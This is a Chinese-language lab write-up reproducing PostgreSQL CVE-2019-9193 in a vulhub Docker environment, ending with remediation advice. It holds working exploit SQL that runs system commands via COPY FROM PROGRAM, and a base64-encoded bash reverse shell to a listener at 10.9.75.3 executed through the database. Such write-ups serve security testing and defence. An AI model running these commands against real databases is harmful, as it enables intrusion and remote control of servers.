




# PostgreSQL 高权限命令执行漏洞（CVE-2019-9193）


### 1.1、漏洞描述

PostgreSQL 是一款关系型数据库。其9.3到11版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令

### 1.2、漏洞等级

### 1.3、影响版本

9.3到11

### 1.4、漏洞复现

#### 1、基础环境

Path：vulhub/postgres/CVE-2019-9193

---

启动测试环境：

```bash
sudo docker-compose up -d
```

环境启动后，将在本地开启PG默认的5432端口。



默认账号密码为postgres/postgres

#### 2、漏洞验证

适用Navicat连接，新建查询

```mssql
-- 先删除你想要使用但是已经存在的表
DROP TABLE IF EXISTS cmd_exec;

-- 创建保存系统命令输出的表
CREATE TABLE cmd_exec(cmd_output text);

-- 执行系统命令利用特定函数
COPY cmd_exec FROM PROGRAM 'id'; 

-- 查看执行结果
SELECT * FROM cmd_exec;

```



### 1.5、深度利用

#### 1、反弹Shell

```bash
# base64 编码前
/bin/bash -i >& /dev/tcp/10.9.75.3/6768 0>&1

# base64 编码后
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjkuNzUuMy82NzY4IDA+JjE=
```

kali开启监听

执行 SQL语句

```mssql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjkuNzUuMy82NzY4IDA+JjE=" | base64 -d | bash'; 
SELECT * FROM cmd_exec;
```



反弹成功



### 1.6、修复建议

```
1、pg_read_server_files，pg_write_server_files 和 pg_execute_server_program 角色涉及读取和写入具有大权限的数据库服务器文件。将此角色权限分配给数据库用户时，应慎重考虑；

2、增强密码的复杂度；

3、进行网络隔离，限制 IP 访问，只允许需要的 IP 连接；
```

